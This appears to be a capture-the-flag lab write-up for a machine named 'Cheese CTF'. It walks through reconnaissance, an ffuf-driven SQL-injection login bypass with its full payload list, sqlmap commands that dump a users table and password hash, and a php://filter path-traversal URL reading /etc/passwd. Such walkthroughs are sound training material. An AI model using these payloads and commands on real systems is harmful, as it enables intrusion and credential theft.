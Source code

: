 # Cheese CTF  


## ``nmap scan``

```
nmap -sCV 10.10.0.223
```

![image](https://github.com/user-attachments/assets/c6f79a9d-c448-47f2-9fd6-1ba6289318e0)



## ``gobuster``

```
gobuster dir -u http://10.10.0.223/ -w /home/kali/Downloads/wordlists/directory-list-2.3-medium.txt
```

![image](https://github.com/user-attachments/assets/6ad6f0aa-b52b-42d5-bc70-7a7b89d02d90)





## ``ffuf``
> you can sue ``ffuf`` to fuzz and bypass login page :

```
ffuf -w SQL_login_bypass.txt -X POST -u http://10.10.0.223/login.php -d 'username=FUZZ&password=asdf' -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -fw 227
```

``found``

![image](https://github.com/user-attachments/assets/24c827a5-71b9-4e89-a18a-ebebe14f79fb)


```
' OR 'x'='x'#;          [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 166ms]
'-''-- 2                [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 92ms]
'-''#                   [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 98ms]
'^''-- 2                [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 96ms]
'^''#                   [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 96ms]
'*''-- 2                [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 95ms]
'*''#                   [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 95ms]
'=''-- 2                [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 95ms]
'=''#                   [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 108ms]
'oR'2'LiKE'2'-- 2       [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 105ms]
'oR'2'LiKE'2'#          [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 117ms]
' UniON SElecT 1,2,3-- 2 [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 97ms]
' UniON SElecT 1,2,3#   [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 97ms]
'UniON(SElecT(1),2,3)-- 2 [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 93ms]
'UniON(SElecT(1),2,3)#  [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 106ms]
'||2-- 2                [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 94ms]
'||'2'||'               [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 93ms]
'||2#                   [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 94ms]
'||2||'                 [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 99ms]
'||'2'='2'||'           [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 92ms]
'||2=2-- 2              [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 93ms]
'||2=2#                 [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 92ms]
'||2=2||'               [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 92ms]
'||true||'              [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 114ms]
'||true-- 2             [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 114ms]
'||'2'LiKE'2'-- 2       [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 98ms]
'||'2'LiKE'2'#          [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 98ms]
'||true#                [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 114ms]
'||'2'LiKE'2'||'        [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 96ms]
'||(2)LiKE(2)-- 2       [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 97ms]
'||(2)LiKE(2)#          [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 92ms]
'||(2)LiKE(2)||'        [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 95ms]
%A8%27||1-- 2           [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 136ms]
%bf'||1-- 2             [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 133ms]
%8C%A8%27||1-- 2        [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 133ms]
:: Progress: [804/804] :: Job [1/1] :: 334 req/sec :: Duration: [0:00:05] :: Errors: 0 ::
```





----
----

<details>
   <summary>inject manual</summary>

> first try ``' or 1=1; -- -`` but not work

``try union``

```
' union select 1 -- -
' union select 1,2 -- -
' union select 1,2,3 -- -
```
and Boom!!! 

it work on 3 columns and bypassed login 

> if you try to extract data from this and appear database content it will not apper ✅ SQLi exists, ❌ but data can’t be extracted via this page.

</details>

----
----


## ``SQLmap``

```
sqlmap -u "http://10.10.0.223/login.php" --data="username=admin&password=pass" --level=5 --risk=3 --threads=5 --dbs
```

``found databases``

```
available databases [2]:
[*] information_schema
[*] users
```

![image](https://github.com/user-attachments/assets/826eb9e0-20b7-4a08-a192-213def942148)


``find tables in users database``

```
sqlmap -u "http://10.10.0.223/login.php" --data="username=admin&password=pass" -D users --tables
```

``found users table``

![image](https://github.com/user-attachments/assets/36fa6cb3-89fb-493b-8c00-afb08453340c)


``get content of users``

```
sqlmap -u "http://10.10.0.223/login.php" --data="username=admin&password=pass" -D users -T users --dump
```

![image](https://github.com/user-attachments/assets/dddc5c59-a882-4c82-b594-6f474d955d26)

```
retrieved: 5b0c2e1b4fe1410e47f26feff7f4fc4c
retrieved: comte
```
```
+----+----------------------------------+----------+
| id | password                         | username |
+----+----------------------------------+----------+
| 1  | 5b0c2e1b4fe1410e47f26feff7f4fc4c | comte    |
+----+----------------------------------+----------+
```


> ### tryed to hash password but not found crack to it so try to found another way to get in system


## ``path traversal``

after bypass login page found :


![image](https://github.com/user-attachments/assets/51963ef7-59a5-4c25-8bfa-81317651aa83)

try to make url like ``http://10.10.0.223/secret-script.php?file=php://filter/resource=../../../../etc/passwd`` found

![image](https://github.com/user-attachments/assets/9231f3b9-6553-4b70-b9db-40bb92ee361a)

Boom !!!

> notice we found in /etc/passwd our user we found ``comte``





